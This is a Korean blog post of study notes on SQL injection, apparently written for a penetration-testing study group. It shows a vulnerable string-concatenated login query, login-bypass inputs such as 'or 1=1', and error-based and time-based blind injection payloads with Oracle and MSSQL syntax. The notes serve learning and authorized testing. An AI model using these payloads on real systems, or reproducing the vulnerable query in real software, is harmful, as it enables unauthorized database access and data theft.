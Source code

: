 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[WEB HACKING] SQL Injection 정리"
excerpt: "모의해킹 취업반 스터디 7기 5주차"

date: 2024-11-13
last_modified_at: 2024-12-11

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


# SQL Injection(주입)
## 개요
설계된 쿼리문에 의도하지 않은 미상의 쿼리를 임의로 삽입하려 악의적인 SQL 구문을 실행하는 공격이다.
공격자는 데이터베이스에 직접적으로 접근해 중요 정보를 조회, 탈취할 수 있다.

## 기본 개념
[DATABASE와 SQL문 설명](./Database_and_SQL.md)

## 작동 방식
사용자 ID와 PW를 입력받으면 SQL 쿼리는 아래와 같이 작동한다.

``` js
"SELECT * FROM member WHERE UserId = '" +
InputId + "' AND UserPw = '" +
InputPw + "'";
```

만약 사용자가 ID를 admin, PW를 1234로 입력한다고 한다면
SQL 쿼리는 다음과 같이 실행된다.
``` 
"SELECT * FROM member WHERE UserId = '
admin' AND UserPw = '1234'";
```

ID: admin
PW: blabla'or1=1

``` 
"SELECT * FROM member WHERE UserId = '
admin' AND UserPw = 'blabla'or1=1'";
```
비밀번호가 blabla는 아니기 때문에 False
test' and '1'='1
test' or '1' = '1
test' # -> 뒤 주석처리

or와 and 연산자
연산자끼리의 우선순위: and 먼저, or 뒤

-> 로그인 페이지에서 실습해보기

## 공격 유형에 따른 분류
### Union SQL Injection

### Error Based SQL Injection
[Error Based SQL Injection](./Error_Based_SQL_Injection.md)

### Blind SQL Injection

# sqli
## SQL Injection Exploit

## 
웹페이지
-> SQL 질의문을 사용하는 곳
-> 서버 측 SQL 질의문 추론 후 공격 시도

## 모의해킹 할 때 주의할 점
1. insert, delete, update 지양
    이 구문들에서는 or, 주석 지양
2. 주석 남용 금지
3. 데이터 변조 금지

## 
`65/**/and/**/1=1`

order by title desc '___'
`sotingAD=, (case+when+ascii(substr((select+user+from+dual),1,1))=0+then+1+else+(1/0)+end)`
1/0 -> oracle error

Time Based Blind SQLi
waitfor delay
order by ___
`sotingAD=ASC;if+substring((select%20user_name()),1,1)=%27a%27+waitfor+delay+%270:0:1%27&startDt=&endDt=&keyword=`

# 인증 우회
* brute force: 무작위 대입 공격
* 사전 대입 공격
-> 인증 횟수 제한

# 인증 건너뛰기
* 이전 페이지에서 건너뛰지 않았는지 확인하기

# 참고
* [SQL Injection](https://developer.mozilla.org/ko/docs/Glossary/SQL_Injection)
